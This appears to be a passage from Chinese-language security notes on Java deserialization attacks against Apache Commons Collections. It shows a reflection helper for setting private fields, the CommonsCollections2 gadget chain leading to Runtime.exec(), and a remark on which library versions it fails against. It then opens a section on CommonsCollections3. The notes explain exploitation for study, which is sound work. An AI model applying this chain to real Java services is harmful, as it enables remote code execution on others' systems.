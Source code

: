 ```java
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

利用链

```java
	Gadget chain:
      ObjectInputStream.readObject()
        PriorityQueue.readObject()
          PriorityQueue.heapify()
              PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                  TransformingComparator.compare()
                      InvokerTransformer.transform()
                        Method.invoke()
                            TemplatesImpl.newTransformer()
                                 TemplatesImpl.getTransletInstance()
                                 TemplatesImpl.defineTransletClasses
                                 newInstance()
                                  	Runtime.exec()
```



> CommonsCollections2 不能在 3.1-3.2.1版本利用成功
>
> **根本原因在于CommonsCollections2的payload中使用的TransformingComparator在3.1-3.2.1版本中还没有实现Serializable接口，无法被反序列化**

# CommonsCollections3

## Basics

CC3 相比于 CC1 也只是更改了命令执行的方式
